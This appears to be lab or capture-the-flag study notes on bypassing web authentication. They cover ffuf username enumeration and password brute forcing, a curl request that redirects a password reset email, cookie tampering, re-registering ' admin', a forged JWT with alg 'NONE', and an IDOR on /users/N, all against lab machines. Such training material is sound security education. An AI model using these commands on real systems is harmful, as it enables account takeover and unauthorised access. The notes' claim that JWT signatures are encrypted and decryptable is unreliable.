 # Username Enumeration

```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://<ip/location to login> -mr "username already exists" 
```

In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The `-d` argument specifies the data that we are going to send. In our example,  we have the fields username, email, password and cpassword. We've set  the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` to the webserver knows we are sending form data. The `-u` argument specifies the URL we are making the request to, and finally, the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

# Brute Force

```shell-session
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/Seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists  would be inserted, but because we're using multiple wordlists, we have  to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma. For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

Running the above command will find a single working username and password combination that answers the question below.

# Logic Flaw

```shell-session
curl 'http://10.10.227.27/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request. 

In the application, the user account is retrieved using the query string,  but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`. 

The PHP `$_REQUEST` variable is an array that contains data received from the query string  and POST data. If the same key name is used for both the query string  and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to  the POST form, we can control where the password reset email gets  delivered.

```shell-session
curl 'http://10.10.227.27/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

# Cookie Tampering

```shell-session
curl http://MACHINE_IP/cookie-test
```

```shell-session
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

```shell-session
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```
# Re-registration
Let's understand this with the help of an example, say there is an existing user with the name **admin** and now we want to get access to their account so what we can do is try to re-register that username but with slight modification. We are going to enter " admin"(notice the space in the starting). Now when you enter that in the username field and enter other required information like email id or password and submit that data. It will actually register a new user but that user will have the same right as normal admin. And that new user will also be able to see all the content present under the user **admin**.
# JSON Web Token
JSON Web Token(JWT) is one of the commonly used methods for authorization. This is a kind of cookie that is generated using HMAC hashing or public/private keys. So unlike any other kind of cookie, it lets the website know what kind of access the currently logged in user has. The only special thing about JWT is that they are in JSON format(after decoding).

JWT can be divided into 3 parts separated by a dot(.)  

1) **Header:** This consists of the algorithm used and the type of the token.

`{  "alg": "HS256", "typ": "JWT"}`

alg could be HMAC, RSA, SHA256 or can even contain None value.

2) **Payload:** This is part that contains the access given to the certain user etc. This can vary from website to website, some can just have a simple username and some ID and others could have a lot of other details.

3) **Signature:** This is the part that is used to make sure that the integrity of the data was maintained while transferring it from a user's computer to the server and back. This is encrypted with whatever algorithm or **alg** that was passed in the header's value. And this can only be decrypted with a predefined secret(which should be difficult to)

Now to put all the 3 part together we base64 encode all of them separated by a dot(.) so it would look something like:

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c`  

**Note:** This example was taken from [jwt.io](https://jwt.io/#debugger-io) and you should check that website out if you want to learn more about JWT. 

**Exploitation** 

If used properly this is a very secure way of authorization but the problem is with using is "properly". A lot of developers misconfigure their system leaving it open to exploitation.

Now one of the methods to exploit this is to perform a brute force/dictionary attack and find the secret used for encrypting the JWT token and then used that to generate new tokens. But here we are not going to do that, we are going to see a very amazing way of exploiting this.

If you remember, in the Header section I said that the **alg** can be whatever the algorithm is used and also it can be **None** if no encryption is to be used. Now, this should not be used when the application is in production but again the problem of misconfiguration comes in and make the application vulnerable to this kind of attack. The attack is that an attacker can log in as low privilege user says **guest** and then get the JWT token for that user and then decode the token and edit the headers to use set **alg** value to **None**. This would mean that no encryption has to be used therefore the attacker wouldn't need to the secret used for encryption.  


**Practical**

Let's see this method in practice. For this challenge visit the port 5000.

 It is a very simple login page and in that, you can log in via two users: user and user2. Now first let's try to login with the credentials of **user:user** . To do so first enter those credentials then click on the **Authenticate** button and then enable the capture in burp suite and then click on **the Go** button. In the burp tab, you should see a request to **/protected** ﻿and there you'll see the JWT token.


https://imgur.com/sLKHY9

![](https://imgur.com/sLKHY9V.png)

Now take this JWT token and then you can decode it part by part.

So if we decode the first part, which will do: `{"typ":"JWT","alg":"HS256"}`

and decoding the 2nd part, we will get: `{"exp":1586620929,"iat":1586620629,"nbf":1586620629,"identity":1}`

If you try to decode the 3rd part then you'll get some gibberish. But that is okay we only need the first and the second part.

Now if we notice the **identity** value that is probably being used to identify the user but if you'll just edit that then it won't work because as I said the 3rd part is encrypted. So to bypass this we will make changes in the header as well as the value of the identity.

Encode the following string with base64 and that will be our first part

`{"typ":"JWT","alg":"NONE"}`

For the second part, we'll encode the following string:

`{"exp":1586620929,"iat":1586620629,"nbf":1586620629,"identity":2}`

Notice how we changed the value of **identity** from **1** to **2**.

Since we placed the alg value to None we don't have to add a 3rd part or the encrypted value so we can just put a dot(.) after 2nd part and leave it like that. So the final string would look like:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K.eyJleHAiOjE1ODY3MDUyOTUsImlhdCI6MTU4NjcwNDk5NSwibmJmIjoxNTg2NzA0OTk1LCJpZGVudGl0eSI6MH0K.  
`

Now open the developer's tools in your browser and edit the stored cookie of the website to this new one and then just press the **Go** button and you'll notice that it will prompt "Welcome user2: guest2".
In a similar manner, you can try to play and find other users on the website.
This kind of misconfiguration in the authentication system is common and could be exploited to escalate privileges or steal information.
# No Auth
In this I am going to show you how a lot of systems don't even have proper authentication and their system is just left open for anyone to exploit it.

A lot of time on websites we see that when we register a user and login with our credentials we are given a certain id which either is completely a number or ends with a number. Most of the time developers secures their application but sometime in some places, it could happen that just by changing that number we are able to see some hidden or private data.

To test this go to port **7777**. On that just create an account. Once the account is created visit your **Private Space**.

![](https://imgur.com/RzRzvpx.png)

As you can see in the image above the URL have **/users/1**. Try to change that value to 2 and we will get access to the admin account  

![](https://imgur.com/TAkXZ4b.png)